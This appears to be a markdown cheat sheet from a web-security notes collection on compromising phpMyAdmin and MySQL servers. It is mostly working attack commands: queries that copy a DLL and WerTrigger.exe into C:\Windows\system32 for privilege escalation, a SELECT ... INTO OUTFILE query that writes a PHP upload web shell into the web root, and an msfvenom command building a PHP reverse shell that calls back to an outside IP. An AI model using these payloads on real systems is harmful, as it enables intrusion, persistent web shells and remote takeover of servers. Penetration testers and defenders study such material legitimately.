 ### SQL
```
Check permissions:
SHOW GRANTS FOR 'root'@'localhost';

Show current user:
SELECT CURRENT_USER();

Check write permission:
show global variables like 'secure%';
```
### default port
80
### default url
http://ip:port/phpmyadmin
### phpmyadmin admin account to get system shell
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md  
![image](https://github.com/KiritoLoveAsuna/WebApplicationSecurity/assets/38044499/2ff1fa35-dabd-4094-b6f1-8c4bfa05b076)   
Now, we are going to use the Privileged Write to move all of these files to C:\windows\system32 using MySQL.
```
select load_file('C:\\xampp\\htdocs\\phoneinfo.dll') into dumpfile 'C:\\Windows\\system32\\phoneinfo.dll';
select load_file('C:\\xampp\\htdocs\\Report.wer') into dumpfile 'C:\\Windows\\system32\\Report.wer';
select load_file('C:\\xampp\\htdocs\\WerTrigger.exe') into dumpfile 'C:\\Windows\\system32\\WerTrigger.exe';
```
![image](https://github.com/KiritoLoveAsuna/WebApplicationSecurity/assets/38044499/31df7857-e1f2-481d-88af-82142a8d164f)  
Now we can move into C:\windows\system32 and execute WerTrigger.exe

### Uploading shell via phpmyadmin
wamp root directory: C:/wamp/www
```
SELECT 
"<?php echo \'<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">\';echo \'<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>\'; if( $_POST[\'_upl\'] == \"Upload\" ) { if(@copy($_FILES[\'file\'][\'tmp_name\'], $_FILES[\'file\'][\'name\'])) { echo \'<b>Upload Done.<b><br><br>\'; }else { echo \'<b>Upload Failed.</b><br><br>\'; }}?>"
INTO OUTFILE 'C:/wamp/www/uploader.php';
```
Then access http://ip:port/uploader.php
```
msfvenom -p php/reverse_php LHOST=192.168.49.57 LPORT=443 -f raw -o shell.php
access http://ip:port/shell.php
```

